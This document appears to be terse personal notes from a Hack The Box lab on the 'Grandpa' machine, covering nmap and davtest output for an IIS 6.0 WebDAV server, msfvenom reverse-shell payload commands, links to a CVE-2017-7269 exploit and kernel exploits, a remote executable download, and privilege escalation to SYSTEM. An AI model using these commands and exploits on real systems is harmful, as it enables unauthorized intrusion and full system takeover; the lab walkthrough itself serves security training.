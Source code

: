 PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Mon, 25 Jan 2021 12:34:31 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


![](2021-01-25-13-35-11.png)

![](2021-01-25-13-37-53.png)

msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4445 --platform Windows -f asp -o rev.asp 

![](2021-01-25-13-44-07.png)
https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/

kali@kali:~/htb/boxes/grandpa/10.10.10.14$ davtest -url http://10.10.10.14      
********************************************************
 Testing DAV connection                                                        
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: ax91_J1Ggk2
********************************************************
 Creating directory                                                            
MKCOL           FAIL                                                           
********************************************************
 Sending test files                                                            
PUT     aspx    FAIL                                                           
PUT     cgi     FAIL                                                           
PUT     shtml   FAIL                                                           
PUT     pl      FAIL                                                           
PUT     asp     FAIL                                                           
PUT     jsp     FAIL                                                           
PUT     php     FAIL                                                           
PUT     txt     FAIL                                                           
PUT     jhtml   FAIL                                                           
PUT     html    FAIL                                                           
PUT     cfm     FAIL                                                           

********************************************************
/usr/bin/davtest Summary:                   


![](2021-01-25-14-05-31.png)

https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell

![](2021-01-25-14-15-41.png)

C:\Documents and Settings>whoami
whoami
nt authority\network service



 /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database /opt/Windows-Exploit-Suggester/2020-12-09-mssb.xls -i sysinfo.txt


 https://github.com/hfiref0x/CVE-2015-1701

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-020


 cscript wget.vbs http://10.10.14.9:9090/IIS6.0.exe

C:\WINDOWS\Temp>iis.exe cmd
iis.exe cmd
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\Temp>whoami
whoami
------------------------------------------
kindle-->Got WMI process Pid: 1832 
begin to try
kindle-->Found token SYSTEM 
kindle-->Command:cmd
nt authority\system

msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=4444 --format exe -o rev.exe

